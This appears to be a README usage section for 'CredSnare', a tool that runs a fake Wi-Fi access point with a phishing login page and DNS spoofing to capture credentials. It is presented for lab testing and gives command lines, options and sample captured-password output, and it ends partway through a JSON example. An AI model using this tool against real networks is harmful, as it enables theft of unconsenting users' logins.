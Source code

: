 ## Usage
CredSnare creates fake Wi-Fi APs and a phishing portal to capture credentials in a controlled lab setting. Below are examples and expected outcomes.

### Basic Commands
Start fake AP and phishing portal:
```bash
sudo python3 credsnare.py -i wlan0 -s FreeWiFi -p login.html
```

Enable DNS spoofing in quiet mode:
```bash
sudo python3 credsnare.py -i wlan0 -s FreeWiFi -p login.html --dns-spoof -T 5 -q
```

### Options
- `-i, --interface`: Wireless interface (required, e.g., `wlan0`).
- `-s, --ssid`: SSID for fake AP (required, e.g., `FreeWiFi`).
- `-p, --phishing-template`: Phishing template file (default: `login.html`).
- `--dns-spoof`: Enable DNS spoofing.
- `-T, --threads`: Number of threads (default: 5).
- `-q, --quiet`: Log to file only.

### Features

#### Fake Access Point
- **Purpose**: Emulate a Wi-Fi AP to attract clients.
- **Usage**:
  ```bash
  sudo python3 credsnare.py -i wlan0 -s FreeWiFi -p login.html
  ```
- **Output**:
  ```
  2025-05-15 14:00:00 - INFO - Starting CredSnare with SSID: FreeWiFi
  2025-05-15 14:00:02 - INFO - Fake AP started
  ```
- **Tips**: Use **WiFiCrush** to capture handshakes for WPA testing.

#### Credential Capture
- **Purpose**: Log credentials via phishing portal.
- **Usage**:
  ```bash
  sudo python3 credsnare.py -i wlan0 -s FreeWiFi -p login.html
  ```
- **Output**:
  ```
  2025-05-15 14:00:05 - INFO - Credential captured: Username=test, Password=secret
  ```
- **Result File** (`credsnare-output/snare_FreeWiFi_20250515_140000.txt`):
  ```
  [2025-05-15 14:00:05] Username: test, Password: secret
  [2025-05-15 14:00:06] Snare run complete
  ```
- **JSON File** (`credsnare-output/snare_FreeWiFi_20250515_140000.json`):
  ```json
  {
    "ssid": "FreeWiFi",
    "interface": "wlan0",
    "credentials": [
      {
        "username": "test",
        "password": "secret",
        "timestamp": "2025-05-15 14:00:05"
      }
    ],
  ```
